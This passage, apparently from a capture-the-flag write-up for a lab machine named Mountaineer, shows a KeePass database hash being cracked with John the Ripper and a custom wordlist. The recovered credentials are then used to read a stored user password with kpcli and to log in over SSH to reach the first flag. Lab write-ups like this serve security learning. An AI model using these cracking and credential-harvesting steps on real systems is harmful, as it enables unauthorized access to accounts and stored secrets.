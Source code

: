 Now that we have a better wordlist, we are successful in cracking the hash for the **KeePass** database.

```console
$ john keepass_hash --wordlist=mount.txt
...
Lh[REDACTED]85      (Backup)
...
```

### Discovering the Password for kangchenjunga

Using the master password we discovered to open the database, we find the password for the `kangchenjunga` user.

```console
$ kpcli --kdb Backup.kdbx
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> cd wordpress-backup/
kpcli:/wordpress-backup> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. European Mountain
1. Sample Entry                                               keepass.info
2. Sample Entry #2                          keepass.info/help/kb/testform.
3. The "Security-Mindedness" mountain
kpcli:/wordpress-backup> show -f 3

Title: The "Security-Mindedness" mountain
Uname: kangchenjunga
 Pass: J9[REDACTED]tV
  URL:
Notes:
```

### Getting a Shell

Using the password, we can use **SSH** to obtain a shell as the `kangchenjunga` user and find the first flag at `/home/kangchenjunga/local.txt`.

```console
$ ssh kangchenjunga@mountaineer.thm
...
kangchenjunga@mountaineer:~$ id
uid=1006(kangchenjunga) gid=1006(kangchenjunga) groups=1006(kangchenjunga)
kangchenjunga@mountaineer:~$ wc -c local.txt
33 local.txt
```
